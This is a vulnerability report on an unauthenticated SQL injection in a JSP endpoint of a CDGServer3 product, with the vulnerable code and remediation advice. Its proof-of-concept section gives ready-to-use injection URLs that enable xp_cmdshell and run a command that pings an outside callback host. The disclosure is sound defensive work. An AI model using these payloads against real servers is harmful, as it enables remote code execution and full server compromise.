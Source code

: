 ![image-20250324104057728](./assets/image-20250324104057728.png)

# Vulnerability Report

## Title: Unauthenticated SQLI Leading to Remote Code Execution (RCE)

### Summary:

A SQL injection vulnerability was discovered in the `UnChkMailApplication.jsp` endpoint, specifically in the `typename` parameter. This vulnerability allows an unauthenticated attacker to execute arbitrary code on the MSSQL server, potentially gaining full control over the server.

### Affected Endpoint:

`/CDGServer3/client/UnChkMailApplication.jsp`

### Vulnerability Type:

RCE

### Vulnerable Code:

```jsp
<%
	FileTypeInfo info = new FileTypeInfo();
	FileTypeDao dao = new FileTypeDao();
	List list = new ArrayList();
	int currPage = RequestUtil.getIntParameter(request, "curpage", 1); //当前是第几页
	String typename = request.getParameter("typename");
	if (typename == null) {
		typename = "";
	}
	PageUtil pageutil = dao.getFileTypeList(typename, currPage);
	list = pageutil.getRecords();
	session.setAttribute("maxrowcount", "" + pageutil.getRecordNum());
	session.setAttribute("maxpage", ""
			+ (pageutil.getPageNum() != 0 ? pageutil.getPageNum() : 0));
	session.setAttribute("curpage", "" + currPage);
	int count = 0;
	if (list != null && list.size() > 0) {
		count = list.size();
	}
```

### Proof of Concept (PoC):

1. Time-based SQL Injection:

   ```
   https://uri/CDGServer3/client/UnChkMailApplication.jsp?typename=1';WAITFOR DELAY '0:0:10'--
   ```

2. Enabling `xp_cmdshell`:

   ```
   https://uri/CDGServer3/client/UnChkMailApplication.jsp?typename=1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
   ```

3. Executing arbitrary command:

   ```
   https://uri/CDGServer3/client/UnChkMailApplication.jsp?typename=1';exec master..xp_cmdshell 'ping fewfwefs.ipv6.1433.eu.org.'--
   ```

### Impact:

This vulnerability allows an attacker to execute arbitrary commands on the server, which can lead to:

- Complete server compromise.
- Data exfiltration.
- Denial of Service (DoS) by executing resource-intensive commands.
- Potential lateral movement within the internal network.

### Recommendation:

1. **Input Validation and Sanitization:** Ensure that all user inputs are properly sanitized and validated. Use prepared statements with parameterized queries to prevent SQL injection.
2. **Least Privilege Principle:** Ensure the database user has the least privileges necessary for the application to function.
3. **Disable Dangerous Features:** Disable features like `xp_cmdshell` unless absolutely necessary.
4. **Regular Security Audits:** Conduct regular security audits and code reviews to identify and fix vulnerabilities.

### Conclusion:

The RCE in the `UnChkMailApplication.jsp` endpoint poses a significant security risk. Immediate remediation steps should be taken to sanitize user inputs and secure the database against unauthorized access and code execution.

### References:

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [Mitigation Techniques](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
